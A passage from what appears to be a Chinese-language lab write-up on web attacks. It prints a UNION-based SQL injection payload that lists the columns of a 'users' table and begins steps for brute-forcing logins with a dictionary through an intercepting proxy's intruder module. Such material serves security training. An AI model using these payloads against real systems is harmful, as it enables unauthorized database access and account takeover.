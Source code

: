 查询列名

id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')

![1573570271636](assets/1573570271636.png)

四、暴力破解

通过定义变量实现对字典的遍历：

拦截到请求后 ：

![1573569537896](assets/1573569537896.png)

然后在intruder模块中，增加需要替换的内容、攻击的类型：
